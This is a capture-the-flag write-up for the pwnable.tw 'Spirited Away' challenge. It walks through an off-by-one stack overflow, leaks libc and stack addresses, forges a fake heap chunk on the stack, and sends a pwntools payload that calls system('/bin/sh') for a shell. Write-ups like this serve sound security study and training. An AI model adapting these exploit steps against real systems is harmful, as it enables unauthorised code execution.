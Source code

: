 # pwnable.tw - Spirited Away

Original challenge link: https://pwnable.tw/challenge/#22

You can as well download challenge files in my repo: [spirited_away.zip](spirited_away.zip)

There will be 2 files in zip:
- spirited_away
- libc_32.so.6

Download and extract, then pwninit to patch libc to binary and we can get started!

# 1. Find bug

First, let's check the basic information of binary:

```bash
$ file spirited_away
spirited_away: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=9e6cd4dbfea6557127f3e9a8d90e2fe46b21f842, not stripped

$ checksec spirited_away
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

This is a 32-bit file without being stripped. Next, we will decompile the file with ghidra to get the main flow of program. The main function just puts() data and then jump to function `survey()`. In `survey()`, the program asks from user input for name, age, reason and comment. Those input function seems secure so we cannot get any advantage from that:

![survey-1.png](images/survey-1.png)

After reading input, it then sprint a string to a variable on stack with argument is global variable `cnt`:

![print-string-to-stack.png](images/print-string-to-stack.png)

Finding the length of that string without `%d` (including space too), we know its length is 54:

```python
>>> len(" comment so far. We will review them as soon as we can")
54
```

But the size for that variable is just 56. Looking down to the check of global variable `cnt`, we know that the maximum byte of `cnt` is 3:

![cnt-check.png](images/cnt-check.png)

So if we add the length of string above, 54, add with 3, length of `cnt`, have result is 57, larger than size of `local_ec` just 56. Hence, 1 byte of the string above, particularly the character `n` at the end, will overwrite the value of variable `size_3c` with byte `n`, in hex format is `0x6e`. As a result, we have a **Buffer Overflow** here.

# 2. Idea

With the **Buffer Overflow** bug we found, we can write more when we input `name` or when we input `comment`. However, `name` is just a chunk created by malloc so overwriting it will not help us exploit this, while overwrite variables below `command` might be helpful.

The image with variables order above will give us hint that we should overwrite the pointer `name` with a fake chunk we want so that we can write data to where we want. The idea is to create a fake chunk inside the variable `auStack84` and overwrite `name` with this fake chunk so that we can overwrite the saved eip when we input name the next time.

And of course, we need to leak libc and stack if we want to do that.

Summary:
- Stage 1: Leak libc address
- Stage 2: Leak stack address
- Stage 3: Fake chunk & Get shell

# 3. Exploit

Before we start our exploit, I wrote these 2 functions for shorter commands of sendafter and sendlineafter:

```python
def sa(msg, data):
    p.sendafter(msg, data)

def sla(msg, data):
    p.sendlineafter(msg, data)
```

### Stage 1: Leak libc address

Because the program use `read()` to read input so no null byte will be added at the end of string. With the function `printf()`, it just stop printing data at null byte so if out input next to and address, that address will be printed out too. Hence, we got address leaked.

After several attempts of trying getting the libc leak, I end up with this code which use the same offset as server to calculate the libc base address from the leak address:

```python
sa(b'name: ', b'A')
sla(b'age: ', b'A')             # So that we won't need to enter age
sa(b'movie? ', b'A'*0x35)
sa(b'ment: ', b'A')

p.recvuntil(b'Reason: ')
p.recv(0x34)
libc.address = u32(p.recv(4)) - 0x1b0000 - ord('A')
log.info("Libc base: " + hex(libc.address))

sa(b'<y/n>: ', b'y')
```

You could try leaking different libc address but the offset will not `0x1b0000` and offset for local will be different from offset for server so you will need to bruteforce that. Do you notice the line `sla(b'age: ', b'A')`? I want to disable the function `scanf()` so inputing data will not get wrong when the program `read()` (You will know why I do that at stage 3).

This is before we input data:

![before-leak-libc.png](images/before-leak-libc.png)

And this is after we input data:

![after-leak-libc.png](images/after-leak-libc.png)

As I said above, printf will stop printing at null byte so we need to change that null byte to a not-null byte. After that, we get the libc base address:

![libc-base-address.png](images/libc-base-address.png)

Because I'm running without ASLR so the address of libc and ld might be in a different format. You can try with command `python3 <python-script-here> NOASLR`

### Stage 2: Leak stack address

This stage is just similar as the first stage. The stack address is right after the libc address above so we just simply get it with this code:

```python
sa(b'name: ', b'A')
sa(b'movie? ', b'A'*0x38)
sa(b'ment: ', b'A')

p.recvuntil(b'Reason: ')
p.recv(0x38)
stack_leak = u32(p.recv(4))
log.info("Stack leak: " + hex(stack_leak))

sa(b'<y/n>: ', b'y')
```

And we get the stack leak:

![stack-leak.png](images/stack-leak.png)

### Stage 3: Fake chunk & Get shell

Now, we want to make value of `cnt` to 100 so that it will cost 3 bytes and we can overwrite the value of `size_3c` with value `0x6e`. We want to make it fast so sending data in one time for each loop will save time:

```python
for i in range(98):
    sa(b'name: ', b'A'*0x3c + b'B'*0x50 + b'C'*0x3c + b'yyy')
```

Suppose we've done that, the value of `size_3c` is now `0x6e`, we will create a fake chunk inside `auStack84` first:

```python
sa(b'name: ', b'A'*0x3c)
payload = flat(
    b'B'*0x8,
    0, 0x41, 0, 0,
    0, 0, 0, 0,
    0, 0, 0, 0,
    0, 0, 0, 0,
    0, 0x10001,
    )
sa(b'movie? ', payload)
```

Because `free()` will check for the size of next chunk, we need to add the size for fake next chunk too. Now we will need to calculate the address of this fake chunk so let's attach gdb and find the distance between the leak address and address of this fake chunk:

![get-fake-chunk-address.png](images/get-fake-chunk-address.png)

The highlighted area is our fake chunk and the value `0x10001` below is the size for fake next chunk. So we know the address for fake chunk is `0xffffcf98` and the stack address leak above in stage 2 is `0xffffcff8`. The offset can be calculated as follows:

```python
>>> 0xffffcff8 - 0xffffcf98
0x60
```

So let's change the pointer `name` to the address of our fake chunk now:

```python
payload = flat(
    b'C'*0x54,
    stack_leak - 0x60,
    )
sa(b'ment: ', payload)
sa(b'<y/n>: ', b'yyy')
```

This is before we overwrite `name`:

![before-overwrite-name.png](images/before-overwrite-name.png)

This is after we overwrite `name`:

![after-overwrite-name.png](images/after-overwrite-name.png)

So now when the program free our fake chunk, no error occurs. When the program jump back and ask us again, just enter our payload and we get shell:

```python
payload = flat(
    b'A'*0x44,                        # Padding
    libc.sym['system'],
    b'BBBB',                          # Fake eip
    next(libc.search(b'/bin/sh')),    # Arg1
    0,                                # Arg2
    0,                                # Arg3
    )
sa(b'name: ', payload)
sa(b'movie? ', b'B')
sa(b'ment: ', b'C')
sa(b'<y/n>: ', b'nnn')
```

Execute script and we can get shell now.

Full script: [solve.py](solve.py)